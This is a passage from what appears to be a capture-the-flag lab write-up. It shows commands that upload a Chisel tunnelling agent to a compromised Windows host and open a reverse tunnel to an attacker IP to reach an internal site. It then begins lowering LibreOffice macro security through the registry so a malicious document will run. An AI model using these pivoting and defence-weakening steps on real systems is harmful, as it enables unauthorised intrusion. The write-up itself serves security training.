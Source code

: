 We can try to access the internal website by uploading a [Chisel](https://github.com/jpillora/chisel) agent on the host.

```console
(local) pwncat$ upload /home/s3rp3nt/Tools/Windows/chisel_1.9.1_windows_amd64 c.exe
(remote) tstark@DC:C:\Users\tstark$ .\c.exe client 10.10.14.7:8000 R:8083:127.0.0.1:8083

$ ./chisel_1.9.1_linux_amd64 server --port 8000 --reverse
```

We can now access the internal website by browsing to `http://127.0.0.1:8083` and we also find the page where we can upload a resume.

![Web form resume upload](/assets/images/writeups/office/resume-upload.png)

Looking back at the source code, we are only allowed to upload Word documents that are smaller than 5Mb in size. When trying to create a `.odt` document with a Macro, we can't actually execute it on the machine. This means that there might be some extra protections in place.

### Reduce Macro Security
According to the [LibreOffice Wikipedia](https://wiki.documentfoundation.org/Deployment_and_Migration#Windows_Registry), there are registry values that can be used to control the
security of the application. We can search for the `MacroSecurityLevel` registry key that shows the current settings.

